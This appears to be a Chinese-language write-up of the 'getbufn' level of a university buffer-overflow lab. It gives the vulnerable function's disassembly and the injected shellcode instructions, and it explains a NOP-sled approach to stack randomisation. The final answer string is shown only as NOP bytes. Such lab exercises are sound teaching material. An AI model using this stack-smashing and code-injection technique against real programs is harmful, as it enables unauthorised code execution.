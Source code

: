 ```asm
```

```asm
00000000004015eb <getbufn>:
  4015eb:	48 81 ec 08 02 00 00 	sub    $0x208,%rsp
  4015f2:	48 89 e7             	mov    %rsp,%rdi
  4015f5:	e8 dd fa ff ff       	callq  4010d7 <Gets>
  4015fa:	b8 01 00 00 00       	mov    $0x1,%eax
  4015ff:	48 81 c4 08 02 00 00 	add    $0x208,%rsp
  401606:	c3                   	retq
```

构造攻击指令如下
```asm
   0:	b8 1b fe f6 51       	mov    $0x51f6fe1b,%eax
   5:	68 3d 12 40 00       	pushq  $0x40123d
   a:	c3                   	retq
```

看一下每一次的写入字符串的位置是多少以确定将来我们要跳转到哪个位置。
我的分别是：
`0x55683ad0`
`0x55683b20`
`0x55683b40`
`0x55683b00`
`0x55683a60`

可以看到最高的地址是`0x55683b40`，之后我们跳转到这个位置，由于字符串有0x208(520)个字节，我们全部填入nop(0x90)，将我们注入的命令写入高位字节，使得跳转之后始终可以到达我们注入的命令。


最终答案如下:
```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
```